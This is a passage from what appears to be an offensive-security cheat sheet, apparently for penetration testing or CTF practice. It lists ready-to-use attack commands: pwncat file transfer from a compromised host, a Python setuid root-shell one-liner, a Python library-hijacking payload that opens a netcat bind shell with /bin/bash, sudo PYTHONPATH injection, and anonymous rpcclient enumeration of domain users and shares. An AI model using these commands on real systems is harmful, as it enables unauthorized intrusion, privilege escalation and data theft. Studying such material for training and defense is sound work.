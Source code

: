 ```c
$ pwncat-cs -lp <LPORT>
(local) pwncat$ download /PATH/TO/FILE/<FILE> .
(local) pwncat$ upload /PATH/TO/FILE/<FILE> /PATH/TO/FILE/<FILE>
```

### Python

#### System Shell

```c
$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### Python Library Hijacking

> https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

> https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7

#### Get the current Path

```c
$ python3 -c 'import sys;print(sys.path)'
```

#### remoteshell.py

```c
import os
os.system("nc -lnvp <LPORT> -e /bin/bash")
```

#### Include Path

```c
$ sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 6
```

### rpcclient

#### LDAP

```c
$ rpcclient -U "" <RHOST>
```

**Queries**

```c
srvinfo
netshareenum
netshareenumall
netsharegetinfo
netfileenum
netsessenum
netdiskenum
netconnenum
getanydcname
getdcname
dsr_getdcname
dsr_getdcnameex
dsr_getdcnameex2
dsr_getsitename
enumdomusers
enumdata
enumjobs
enumports
enumprivs
queryuser <USERNAME>
```